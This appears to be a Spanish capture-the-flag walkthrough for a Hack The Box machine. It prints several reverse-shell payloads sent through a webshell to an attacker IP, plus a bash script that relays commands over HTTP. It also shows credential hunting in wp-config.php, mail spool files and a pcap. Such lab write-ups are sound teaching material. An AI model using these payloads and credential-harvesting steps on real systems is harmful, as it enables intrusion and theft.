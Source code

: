 ## Explotacion de vulnerabilidad & Ganando acceso {-}

### Crear una reverse shell desde la webshell {-}

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. En la web

    ```bash
    http://sec03.rentahacker.htb/shell.php?hidden=nc -e /bin/bash 10.10.14.20 443
    http://sec03.rentahacker.htb/shell.php?hidden=bash -i >& /dev/tcp/10.10.14.20/443 0>&1
    http://sec03.rentahacker.htb/shell.php?hidden=bash -c "bash -i >& /dev/tcp/10.10.14.20/443 0>&1"
    http://sec03.rentahacker.htb/shell.php?hidden=bash -c 'bash -i >& /dev/tcp/10.10.14.20/443 0>&1'
    http://sec03.rentahacker.htb/shell.php?hidden=whoami | nc 10.10.14.20 443
    ```

Como aqui vemos que nada functionna, pensamos que hay reglas que son definidas en el *iptables*

### Creamos una FakeShell {-}

En el directorio exploits creamos un fichero `fakeShell.sh` que contiene

```bash
#!/bin/bash

function ctrl_c(){
    echo -e "\n\n[!] Saliendo...\n"
    exit 1
}

# Ctrl+C
trap ctrl_c INT

# Variables globales
declare -r main_url="http://sec03.rentahacker.htb/shell.php"

while true; do
    echo -n "[~] " && read -r command
    echo; curl -s -X GET -G $main_url --data-urlencode "hidden=$command"; echo
done
```

Ya lo podemos lanzar con el comando `rlwrap ./fakeShell.sh`

> [ ! ] Notas: Las explicaciones del script se pueden ver en el video live en el minuto 1:15:38

Tambien se podria utilizar la herramienta creada por s4vitar [ttyoverhttp](https://github.com/s4vitar/ttyoverhttp)

### Enumeramos el equipo {-}

```bash
ls -l /home
whoami
ls -l /home/ib01c03
ls wp-config.php
find \-name wp-config.php
find / \-name wp-config.php
cat /home/ib01c03/www/wp-config.php
```

Vemos un fichero comprimido de wordpress. Buscamos el fichero de configuracion de wordpress que suele tener credenciales en
texto claro. Una vez encontrado lo miramos con `cat`. Encontramos usuario y contraseña para el servicio mysql. Aqui no hay nada interesante.

### Chequeamos ficheros del servicio SMTP {-}

Los ficheros de email suelen ser guardados en el `/var/spool/mail`. Aqui vemos dos ficheros y une tiene credenciales para el **FTP** en texto claro.

### Conexion por ftp {-}

```bash
ftp 10.10.10.155
Name: ib01ftp
Password: 
```

ya hemos podido entrar en la maquina. Vemos archivos y nos los descargamos a la maquina de atacante

```bash
binary
prompt off
mget *
```

Hay ficheros interesantes como `notes.txt` o `ib01c01.access.log` que nos dan pistas pero nosotros vamos a por el fichero `ib01c01_incident.pcap`

### Investigamos el fichero pcap con TShark {-}

```bash
tshark -r ib01c01_incident.pcap
tshark -r ib01c01_incident.pcap -Y "http.request.method==POST" 2>/dev/null
tshark -r ib01c01_incident.pcap -Y "http.request.method==POST" -Tjson 2>/dev/null
tshark -r ib01c01_incident.pcap -Y "http.request.method==POST" -Tfields -e tcp.payload 2>/dev/null | xxd -ps -r
```

Analizando aqui encontramos passwords que son codeadas en url-encode. Tratamos de conectar con el usuario de estos ficheros `ib01c01` con la 
nueva contraseña y pa dentro. Ya podemos ver el fichero **user.txt**

### Continuacion de la investigacion con Wireshark {-}

Aqui llegamos a una parte bastante complicada de explicar por escrito. Mejor verlo directamente con el video desde el minuto 1:40:45
De echo esta parte explica como encuentra un modulo rootkit en el sistema y explica como tratarla.




